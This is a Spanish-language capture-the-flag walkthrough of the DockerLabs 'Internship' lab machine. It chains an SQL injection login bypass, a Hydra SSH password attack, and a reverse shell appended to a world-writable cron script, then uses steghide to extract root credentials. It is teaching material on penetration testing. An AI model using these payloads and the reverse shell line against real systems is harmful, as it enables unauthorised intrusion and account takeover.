## Introduction

La máquina **Internship** de **[Dockerlabs](https://dockerlabs.es/)** se centra en una máquina vulnerable con los puertos 80 (HTTP) y 22 (SSH) expuestos. Inicialmente, se identificó una vulnerabilidad de inyección SQL (SQLi) en la aplicación web, lo que permitió extraer información relevante sobre los usuarios del sistema. Con estos datos, se generó un diccionario personalizado para realizar un ataque de fuerza bruta contra el servicio SSH utilizando Hydra, logrando acceso a una cuenta sin privilegios elevados. Posteriormente, se llevó a cabo una escalada de privilegios horizontal, comprometiendo otra cuenta dentro del sistema. Finalmente, se identificó una imagen que contenía información oculta mediante esteganografía LSB (Least Significant Bit), lo que permitió obtener credenciales adicionales. Con estos datos, se ejecutó una escalada de privilegios vertical, obteniendo acceso total como usuario root.

~~~
Platform: DockerLabs
Level: Easy
OS: Linux
~~~

## Reconnaissance

~~~
Target IP: 172.17.0.2
~~~

Como primer paso se realiza un escaneo de puertos con la herramienta **Nmap**



## Enumeration

### 22/SSH
El puerto 22 ejecuta el servicio SSH versión **OpenSSH 9.2p1**. De momento no tenemos ninguna vulnerabilidad que aprovechar para esta versión.

### 80/HTTP
El puerto 80 ejecuta un servidor web **Apache/2.4.62**. Por lo visto es una página enfocada en la administración de empleados. No se permite la interacción con el menu de momento:



En el código fuente de la página principal se observa el dominio **`gatekeeperhr.com`**

Con el fin de acceder al mismo es necesario añadirlo al **`/etc/hosts`**, esto se puede realizar con el siguiente comando  **`echo "172.17.0.2 gatekeeperhr.com" | sudo tee -a /etc/hosts`**

Ahora es posible interactuar con el menu. Se observa un panel de autenticación:



En el código fuente de la página principal se encuentra un comentario que permite inferir que los pasantes tienen permisos **SSH**.

En el panel de autenticación al enviar una **comilla simple (')** como usuario y cualquier contraseña, se genera el error **`JSON.parse unexpected end of data at line 1 column 1 of the json data`** lo que puede indicar un posible problema de procesamiento de entrada.



Con el payload **`' OR '1'='1' --`** se logra acceder al sistema sin credenciales válidas por lo que la aplicación es vulnerable a **`SQLi (SQL Injection)`**

Luego de ingresar es posible observar un **Dashboard de Recursos Humanos** con información ciertamente relevante:

Se realiza **Directory Bruteforcing** con el fin de encontrar directorios o archivos ocultos no listados. Se encontró el archivo **`/employees.php`** y el directorio **`/spam`**



Con el comando **`curl -X GET 'http://gatekeeperhr.com/employees.php' -o employees.php`** se descargó el archivo con el fin de inspeccionarlo. Básicamente son los datos de los empleados encontrados anteriormente en el dashboard de recursos humanos:

En el directorio **/spam/index.html** se inspeccionó el código fuente y se encontró una frase encriptada en **`ROT13`**



Haciendo uso de **[CyberChef](https://gchq.github.io/CyberChef/)** se lográ obtener el mensaje "**`La contraseña de uno de los pasantes es 'purpl3'`"**  
  

## Exploitation

Con una credencial, es factible el intentar un ataque de fuerza bruta. En primer lugar, utilizando los datos encontrados anteriormente en el archivo **`employees.php`** se crea la lista de los posibles usuarios:

En este caso se utiliza la herramienta **`Hydra`** con el comando **`hydra -L users.txt -p purpl3 ssh://172.17.0.2 -V`**



Una vez obtenidas las credenciales es posible acceder al **servicio SSH** de la víctima:

~~~
User: pedro
Password: purpl3
~~~

## Privilege Escalation

En el directorio **`/opt`** se encontró un script sospechoso llamado **`log_cleaner.sh`** 

Con el comando **`ps aux`** es posible observar todos los procesos en ejecución con detalles como usuario, PID, uso de CPU/memoria, estado y el comando que los inicio. El comando **`| grep log_cleaner`** permite filtrar los resultados.

Es posible notar que la usuaria **`valentina`** tiene dos instancias del script **`log_cleaner.sh`** en ejecución. Esto se ve en las líneas que muestran **`/bin/sh -c sleep 45; /opt/log_cleaner.sh`** y **`/bin/sh -c sleep 30; /opt/log_cleaner.sh`**. Cada una de estas líneas representa un proceso separado que ejecuta el script con un retraso diferente (45 y 30 segundos) antes de ejecutar el script. Esto permite que el script se ejecute de manera periodica.

Con el comando **`ls -l /opt/log_cleaner-sh`** se busca inspeccionar los permisos, propietario y grupo del archivo en específico: 

| Categoría    | Usuario Propietario (Valentina)  | Grupo(Valentina)       | Otros (Yo, Pedro)      |
| ------------ | -------------------------------- | ---------------------- | ---------------------- |
| **Permisos** | `rwx` (leer, escribir, ejecutar) | `rw-` (leer, escribir) | `rw-` (leer, escribir) |



El usuario **`pedro`** posee permisos de escritura en el archivo **`log_cleaner.sh`** y con el conocimiento de que el script se ejecuta de manera periodica podriamos concluir que es posible inyectar código malicioso en el script. Como el objetivo es obtener **RCE** de la usuaria **valentina** lo más factible seria utilizar una **Reverse Shell**.

Con el comando **`echo "bash -i >& /dev/tcp/192.168.0.10/1717 0>&1" >> /opt/log_cleaner.sh`**  luego iniciando **`nc -lvnp 1717`** en nuestra terminal local es posible acceder como **`valentina`**



Una vez dentro se intenta nuevamente escalar privilegios. En el directorio principal se encontró una imagen **`profile_picture.jpeg`**, con la herramienta **`steghide`** se intento extraer datos del archivo multimedia pero sin exitos. 

Con el fin de utilizar la herramienta anteriormente mencionada realizamos una serie de pasos. En primer lugar, se copió el archivo **`profile_picture.jpeg`** al directorio **`/tmp`**. El directorio **`/tmp`** es un directorio temporal donde es posible almacenar archivos temporalmente.

En segundo lugar, con el comando **`chmod +x /tmp/profile_picture.jpeg`** se dio permisos de ejecución al archivo **`profile_picture.jpeg`** en el directorio **`/tmp`**. Esto significa que ahora el archivo se puede ejecutar como un programa.

En tercer lugar, con el comando **`scp /tmp/profile_picture.jpeg pedro@172.17.0.2:/home/pedro`** se usó **`scp`** **(Secure Copy)** para transferir el archivo **`profile_picture.jpeg`** al servidor con la dirección IP 172.17.0.2. El archivo se copió al directorio **`/home/pedro`** en el servidor remoto, y se transfirió al usuario **`pedro`**.

Una vez con el archivo en la máquina de **`pedro`** se utiliza el comando **`php -S 0.0.0.0:8080`** para crear un **servidor PHP** con el objetivo de descargar el archivo **`profile_picture.jpeg`** en nuestra máquina local.



Dentro de nuestra máquina local, haciendo uso del comando **`wget http://172.17.0.2:8080/profile_picture.jpeg`** se obtiene el archivo **`profile_picture.jpeg`** pudiendo asi hacer uso de la herramienta de **esteganografía** **`steghide`**  

Se utiliza el comando **`steghide info`** para analizar el archivo **`profile_picture.jpeg`**, esto muestra un archivo embebido llamado **`secret.txt`**. Se extrae con el comando **`steghide extract -sf`**

Luego de analizar el archivo extraído **`secret.txt`** notamos que dentro se encuentra la palabra **`mag1ck`**, lo que posiblemente corresponda una credencial.

~~~
User: valentina
Password: mag1ck
~~~

Con el proposito de verificar lo anteriormente mencionado, en la terminal de **`valentina`** se ejecutó el comando **`sudo su`** y, posteriormente se ingresó la credencial obtenida logrando asi completar la máquina:



**ROOTED**